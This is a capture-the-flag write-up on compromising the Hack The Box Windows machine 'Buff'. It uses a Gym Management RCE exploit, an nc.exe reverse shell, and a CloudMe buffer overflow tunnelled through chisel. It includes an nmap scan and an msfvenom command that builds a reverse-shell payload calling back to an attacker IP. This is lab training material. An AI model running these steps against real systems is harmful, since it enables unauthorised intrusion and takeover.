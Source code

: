 ```yaml
---
description: >-
  Dec1pher's writeup on the easy-difficulty Windows machine Buff from
  https://hackthebox.eu
---
```


# HTB-Buff

* OS: Windows
* IP: 10.10.10.198

![](../../.gitbook/assets/buff.PNG)

## Overview

Buff is an easy windows machine that runs a gym management web interface that's outdated and has a known exploit to get RCE on the box. From here we are using winPEAS to locate `CloudMe.exe` which is vulnerable to buffer overflow. Using some port forwarding and the found python exploit we get administration rights on the box.

## Useful Tools

1. chisel  [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)

## Enumeration

### Nmap

As always the first thing is enumerating the box with nmap. The most efficient flags that I found that work relatively fast and at the same time don't skip important information are `-Pn` to skip the ping test, `-sS` for TCP SYN scan, `-sC` for testing default scripts, `-sV` for version enumeration of the host, `-T4` to be fast and `-p-` to do an all ports scan. Also to not waste time I like to use the `--max-retries 0` to stop nmap from testing the same port multiple times.

```bash
dec1pher@kali:~$ sudo nmap -Pn -sS -sC -sV -T4 -p- 10.10.10.198 --max-retries 0
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org/ ) at 2020-11-12 17:07 EET
Nmap scan report for 10.10.10.198
Host is up (0.12s latency).
Not shown: 999 filtered ports
PORT STATE SERVICE VERSION
8080/tcp open http Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6 Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 close
|_http-title: mrb3n's Bro Hut
Device type: general purpose Running (JUST GUESSING): Microsoft Windows XP 7 (87%)
OS CPE: cpe:/o:microsoft:windows xp :: sp3 cpe:/o:microsoft:windows_7
Aggressive OS guesses: Microsoft Windows XP SP3 (87%), Microsoft Windows XP SP2 (86%), Microsof 85%)
No exact OS matches for host (test conditions non-ideal).

OS and Service detection performed. Please report any incorrect results at https://nmap.org/sub
```

There is only one port open according to the initial scan and it's an Apache web server on port 8080. Nmap didn't gave us an OS version but it could detect that the host runs windows.

### Site discovery \(HTTP 8080\)

The website is a gym management app and going though the pages we can see in the `contact.php` page the version and the name of the software that's used.

![](../../.gitbook/assets/buff-site.png)

That version of the app has a know vulnerability that gives RCE to the attacker and we can find the exploit python script in ExploitDB [https://www.exploit-db.com/exploits/48506](https://www.exploit-db.com/exploits/48506).

## Exploiting Gym management to get RCE

By running the exploit providing the box ip we get RCE on the box. The shell that the script opened is not responsive \(we can't change directories\) but we can run commands on the box. So we spin up a python server on our box and we upload `nc.exe` on the machine using `powershe Invoke-WebRequest` since we have access to powershell. Since `nc.exe` gets uploaded we can call it from the webshell we got from the python script and get a responsive reverse shell on the box \(since the nc.exe doesn't get deleted or blocked we can assume that the box doesn't have an antivirus or some kind of malware detection\).

1. Uploading `nc.exe` 

![](../../.gitbook/assets/buff-nc.png)

2. Executing `nc` and getting a responsive reverse shell

![](../../.gitbook/assets/buff-rce.png)

* We can get user.txt under `C:\Users\Shaun\Desktop\user.txt`

## Privilege escalation

After some manual enumeration on the use we can see an app that stick out `CloudMe.exe`. After searching for that app we can find that the version of that app is vulnerable to buffer overflow and we can find a python script in exploitdb that exploits the vulnerability.

> buffer overflow script found here =&gt; [https://www.exploit-db.com/exploits/48389](https://www.exploit-db.com/exploits/48389)

### Creating the payload and setting up Chisel

Since python is not installed in the victim box we can use port forwarding to execute the script locally and send the payload to the victim using chisel. First we have to create a payload that opens a reverse TCP connection back to us. To do that we can use msfvenom and then use that created payload in the python script that we found.

1. To create the payload `sudo msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.14.103 LPORT=1337 -f py -v payload`

Our next move is to upload `chisel.exe` on the victim using `powershell IWR` and run it in client mode , open chisel locally in server mode on the same ports to get a connection from our machine to the victim machine and finally forward the payload to the port that the app is running.

2. Locally open chisel in server mode

![](../../.gitbook/assets/buff-client-chisel.png)

3. Remotely execute chisel in client mode

![](../../.gitbook/assets/buff-serverchisel.png)

So we have created the tunnel to forward the payload to the app so now we can execute the python script that sends the payload open a netcat listener and get administration access on the box.

![](../../.gitbook/assets/buff-root.png)

* At this point we have administration access on the box and we can get `root.txt` under `c:\Users\Administrator\Desktop\root.txt`

